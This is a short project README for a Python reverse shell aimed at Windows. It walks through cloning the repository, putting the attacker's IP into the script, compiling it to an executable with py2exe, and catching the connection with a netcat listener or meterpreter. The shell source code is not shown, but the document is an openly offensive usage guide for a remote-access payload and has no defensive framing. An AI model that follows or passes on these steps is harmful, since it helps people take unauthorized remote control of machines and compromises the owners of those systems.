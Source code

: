 # rv_shell
Simple reverse shell written in python 3

### Things you need
* Windows
* Python 3.4

## HOW TO INSTALL
```
git clone https://github.com/DarkSecDevelopers/shellpy.git
                              OR
Download Zip archive and navigate to shellpy-master directory
pip install -r requirements.txt
```


### How to run
edit shell.py and change IP(25th line) to your local or wan ip 
then just compile to exe using ```python setup.py py2exe```.You can find your file in dist folder.
Set up listener using netcat ```nc -lvp 4444``` or meterpreter then just run .exe file and you'll get shell.

